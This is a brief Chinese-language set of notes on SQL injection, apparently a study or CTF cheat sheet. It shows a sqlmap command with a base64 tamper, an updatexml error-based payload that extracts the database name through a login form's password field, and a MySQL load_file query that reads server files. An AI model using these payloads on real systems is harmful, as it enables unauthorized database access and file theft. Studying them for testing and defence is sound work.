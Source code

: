当sqlmap测试base64编码过的sql注入时，需要指定tamper参数

```
sqlmap -r request.txt --batch --tamper base64encode
```

可用的tamper在

/usr/share/sqlmap/tamper/

目录下

##### update注入

updatexml函数

```
uname=admin&passwd=admin' or updatexml(1, concat(0x7e,(select database()), 0x7e),1) and '1' = '1 &submit=Submit
```

当passwd参数存在sql注入，可以使用updatexml进行查询操作



##### 利用sql注入读写文件

###### 读取

load_file可以读取文件内容

比如

```sql
select load_file("/run.sh");
```

![1593160649765](assets/1593160649765.png)
